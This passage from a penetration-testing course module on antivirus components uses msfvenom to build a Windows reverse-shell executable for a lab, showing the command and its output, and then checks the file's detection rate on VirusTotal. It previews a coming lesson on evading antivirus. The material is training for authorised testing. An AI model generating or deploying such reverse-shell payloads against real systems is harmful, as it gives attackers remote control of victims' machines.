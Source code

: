 Before generating any Metasploit payloads, it is a best practice to make sure we are running the latest version of Kali. Metasploit gets updated frequently and its AV signatures could change as well. AV vendors must rebuild those signatures and push them as updates. This constant and intrinsic delay in pushing new up-to-date signatures could give attackers an extra edge during a penetration test, since a fresh Metasploit version might run undetected due to stale AV signatures.

Let's generate the test binary payload by running the **msfvenom** command followed by the **\-p** argument specifying the payload. We'll then pass the reverse shell local host (**LHOST**) and local port (**LPORT**) arguments along with the **EXE** file format and redirect the output to a file named **binary.exe**.

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f exe > binary.exe
...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

> Listing 5 - Generating a malicious PE containing a meterpreter shell.

Next, we will run a virus scan on this executable. Rather than installing many antivirus applications on our local machine, we can upload our file to [_VirusTotal_](https://www.virustotal.com/#/home/upload), which will scan it to determine the detection rate of various AV products.

VirusTotal is convenient, but it generates a hash along with storing the original file for each unique submission. The submitted files along with the metadata are then shared with all participating AV vendors. As such, take care when submitting sensitive payloads as the hash is considered public from the time of first submission.

The results of this scan are listed below.

![[/9a05cfc8fe2cd0438b9b48b03c79ed23-antivirus_evasion_01b.png]]

Figure 1: Virustotal results on the msfvenom payload.

We'll notice in our results that many antivirus products determined our file is malicious based on the different detection mechanisms we have illustrated in this section.

In this Learning Unit, we have explored the different components that constitute a modern AV and covered the various strategies adopted to detect malicious software.

In the next Learning Unit, we are going to make use of this knowledge and learn the different mechanisms that enable attackers to evade antivirus detections.

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

Antivirus Evasion - AV Components and Operations - VM #1

#### Labs
